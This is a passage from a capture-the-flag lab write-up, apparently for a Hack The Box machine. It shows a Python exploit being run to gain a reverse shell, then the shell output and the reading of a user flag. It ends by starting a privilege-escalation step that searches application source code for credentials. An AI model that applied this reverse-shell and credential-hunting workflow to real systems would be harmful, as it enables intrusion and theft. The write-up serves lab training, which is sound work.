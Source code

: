 If we run this using `python3 [exploit.py](http://exploit.py)` we get a reverse shell:

```bash
$ python3 exploit.py                
$ id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)                                  
$ hostname -I                                                                                     
10.10.11.170 dead:beef::250:56ff:feb9:531d                                                        
$ cat /home/woodenk/user.txt                                                                             
64****************************c6                                                              
```

We have now found the user flag. 

## Privilege Escalation

We can search through the files for the panda. In the [MainController.java](http://MainController.java) we find credentials”

```bash
$ cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java         
package com.panda_search.htb.panda_search;                                                          
                                                                                                    
import java.util.ArrayList;                                                                         
import java.io.IOException;                                                                         
import java.sql.*;                                                                                  
import java.util.List;                                                                              
import java.util.ArrayList;                                                                         
import java.io.File;                                                                                
import java.io.InputStream;                                                                         
import java.io.FileInputStream;                                                                     
                                                                                                    
import org.springframework.stereotype.Controller;                                                   
import org.springframework.ui.Model;                                                                
import org.springframework.web.bind.annotation.GetMapping;                                          
import org.springframework.web.bind.annotation.PostMapping;                                         
import org.springframework.web.bind.annotation.RequestParam;                                        
import org.springframework.web.bind.annotation.RestController;                                      
import org.springframework.web.bind.annotation.ResponseBody;                                        
import org.springframework.web.servlet.ModelAndView;                                                
import org.springframework.http.MediaType;                                                          
                                                                                                    
import org.apache.commons.io.IOUtils;                                                               
                                                                                                    
```